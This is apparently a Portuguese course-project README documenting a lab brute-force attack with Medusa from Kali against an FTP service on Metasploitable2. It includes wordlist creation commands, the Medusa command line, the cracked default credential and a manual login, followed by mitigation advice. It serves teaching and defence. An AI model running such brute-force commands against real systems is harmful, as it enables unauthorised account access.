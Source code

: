 # DIO-Santander-Ciberseguranca
Simulando Ataques de Força Bruta com Medusa (Kali → Metasploitable2)
Resumo

Projeto prático que simula ataques de força bruta em um ambiente controlado usando Medusa (Kali Linux atacando Metasploitable2). Documenta ambiente, comandos, wordlists simples, evidências e recomendações.

Ambiente de teste

Host: VirtualBox (Host-Only)

VM Atacante: Kali Linux — 192.168.56.102

VM alvo: Metasploitable2 — 192.168.56.101

Observação: este teste foi executado apenas em laboratório controlado (Metasploitable2).

Arquivos de wordlists / usuários usados

No laboratório criei dois arquivos simples:

Criar users.txt:
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt

Criar pass.txt:
echo -e "123456\nmsfadmin\nqwerty\npassword" > pass.txt

Conteúdo (visível nos prints):

users.txt:

user
msfadmin
admin
root


pass.txt:

123456
msfadmin
qwerty
password

Comando utilizado (Medusa)

Executado a partir do Kali:

medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6


-h host alvo

-U arquivo de usuários

-P arquivo de senhas

-M ftp módulo FTP

-t 6 threads

Resultado observado (evidências)

Durante a execução, o Medusa testou combinações e retornou uma credencial encontrada:

Exemplo de linha capturada na saída do Medusa (print):
2025-10-21 00:11:24 ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]

Após isso, foi possível acessar o serviço FTP manualmente:

ftp 192.168.56.101
# Quando solicitado:
Name (192.168.56.101:cyber): msfadmin
Password: msfadmin
# Mensagem:
230 Login successful.


Recomendações e Mitigações (resumo)

Desabilitar FTP se não for necessário; usar SFTP/FTPS.

Implementar bloqueio de conta ou bloqueio por IP após N tentativas falhas.

Forçar senhas fortes e políticas de expiração.

Monitorar logs de autenticação e alertar tentativas suspeitas.

Segmentar serviços (SMB/FTP) para redes internas apenas.

Como salvar logs (exemplo)
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6 2>&1 | tee outputs/medusa_ftp.txt
script -c "medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6" outputs/medusa_session.txt
